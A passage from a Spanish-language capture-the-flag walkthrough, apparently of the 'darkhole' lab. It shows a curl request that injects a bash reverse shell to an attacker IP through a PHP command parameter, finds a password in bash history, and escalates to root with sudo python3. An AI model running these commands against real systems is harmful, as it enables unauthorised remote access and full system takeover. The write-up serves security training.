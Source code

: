 En la máquina víctima ejecutamos el siguiente comando:

```bash
$curl -G http://127.0.0.1:9999 --data-urlencode "cmd= bash -c 'bash -i >& /dev/tcp/192.168.184.128/443 0>&1'"
```
Código explicado:
- `curl -G`: curl se usa para realizar solicitudes HTTP y la opción -G indica que se está enviando una solicitud HTTP GET
- `http://127.0.0.1:9999` Este es el destino de la solicitud HTTP. En este caso, el servidor PHP en ejecución local en el puerto 9999.
- `--data-urlencode` Este parámetro codifica la cadena después de cmd= para enviarla de forma segura como parte de la solicitud URL.

El comando desde `bash` hasta el final intentará iniciar una shell interactiva inversa (reverse shell).
- `bash -c:` Inicia una nueva instancia de Bash para ejecutar el comando proporcionado.
- `bash -i >& /dev/tcp/192.168.184.128/443 0>&1:` Abre una conexión TCP desde el servidor víctima a la dirección IP `192.168.184.128` (Máquina atacante) en el puerto 443. Redirige el flujo estándar de entrada y salida hacia la conexión, proporcionando al atacante acceso remoto a una shell en la máquina víctima.

En resumen:
 - 1. PHP permite ejecutar comandos arbitrarios a través del parámetro cmd.
 - 2. El comando enviado en la solicitud HTTP abre una conexión hacia el atacante (en la IP 192.168.184.128, puerto 443).
 - 3. En la máquina atacante, un comando como nc -lvvp 443 está esperando conexiones entrantes.

```bash
losy@darkhole:/opt/web$ whoami
whoami
losy
```

El comando `cat ~/.bash_history` mostrará el historial de comandos ejecutados por el usuario actual en la terminal Bash. Esto puede ser útil para revisar comandos pasados, pero también representa un riesgo de seguridad si contiene información sensible.

En los comandos ejectutados encontramos lo siguiente `P0assw0rd losy:gang`.

Nos conectamos por ssh al usuario losy

```bash
losy@darkhole:~$ sudo -l
[sudo] password for losy: 
Matching Defaults entries for losy on darkhole:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User losy may run the following commands on darkhole:
    (root) /usr/bin/python3
```

"El usuario losy puede ejecutar los siguientes comandos en darkhole: (root) /usr/bin/python3". Por tanto:

```bash
sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
```
